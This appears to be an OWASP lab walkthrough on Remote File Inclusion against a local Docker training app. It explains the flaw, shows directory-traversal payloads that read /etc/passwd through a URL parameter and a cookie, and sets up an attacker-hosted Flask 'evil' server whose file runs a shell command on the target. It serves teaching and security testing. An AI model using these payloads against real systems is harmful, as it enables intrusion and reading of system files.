




# Remote File Inclusion

## Running the app on Docker

```
$ sudo docker pull blabla1337/owasp-skf-lab:rfi
```

```
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:rfi
```


Now that the app is running let's go hacking!


## Reconnaissance

Remote File Inclusion (also known as RFI) is the process of including files, that are supplied into the application and loaded from an external (remote) source, through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected. Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.

Warning: To successfully test for this flaw, the tester needs to have knowledge of the system being tested and the location of the files being requested. There is no point requesting /etc/passwd from an IIS web server.

Some Examples:

```
http://example.com/getUserProfile.jsp?item=../../../../etc/passwd

Cookie: USER=1826cc8f:PSTYLE=../../../../etc/passwd
```

The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a "dynamic file inclusion" mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

This can lead to something as outputting the contents of the file, but depending on the severity, it can also lead to:

Code execution on the web server

Code execution on the client-side such as JavaScript

which can lead to other attacks such as:

Cross-site scripting (XSS)

Denial of Service (DoS)

Sensitive Information Disclosure

Let us see how can we exploit the file inclusion vulnerability in a real world scenario, the application here allows us to run 2 commands from the drop down list. One is running Date and the other is Calendar.





When we will have a look in our intercepting proxy we can see that the application uses a predefined file that contains the command to execute and prints the results of it.



## Exploitation

To exploit this Remote File Inclusion vulnerability, let's use Python Flask to create a small webserver that serves your file. We name it evil_server.py

```python
from flask import Flask, request, url_for, render_template, redirect


app = Flask(__name__)
app.config['DEBUG'] = True

@app.route("/evil.py")
def start():
    return render_template("evil.py")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Then we create our folder template where we will put our evil.py file with the below content .

```python
os.popen('whoami').read()
```

Now we are ready to start our evil_server.py and try to make the application load our evil python file and hopefully it will get executed.

```
$ pip install flask
$ python evil_server.py
```




Success! As we observed, we can include our own files through RFI.


## Additional sources

[https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion](https://www.owasp.org/index.php/Testing_for_Remote_File_Inclusion)
